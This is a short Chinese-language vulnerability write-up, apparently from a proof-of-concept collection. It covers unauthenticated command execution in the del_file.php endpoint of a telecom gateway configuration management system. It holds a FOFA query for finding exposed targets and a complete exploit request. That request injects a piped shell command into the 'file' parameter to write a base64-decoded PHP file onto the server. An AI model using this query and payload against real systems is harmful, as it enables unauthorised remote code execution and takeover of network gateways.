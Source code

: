 ## 电信网关配置管理后台del_file.php接口存在命令执行漏洞

电信网关配置管理系统/manager/newtpl/del_file.php接口存在命令执行漏洞,未经身份验证的远程攻击者利用漏洞获取系统权限。

## fofa

```
body="img/login_bg3.png" && body="系统登录"
```

## poc

```
GET /manager/newtpl/del_file.php?file=1.txt%7Cecho%20PD9waHAgZWNobyBtZDUoJzEyMzQ1NicpO3VubGluayhfX0ZJTEVfXyk7Pz4%3D%20%7C%20base64%20-d%20%3E%201.php HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

![image-20240613144014837](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406131440897.png)

![image-20240613144024431](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406131440485.png)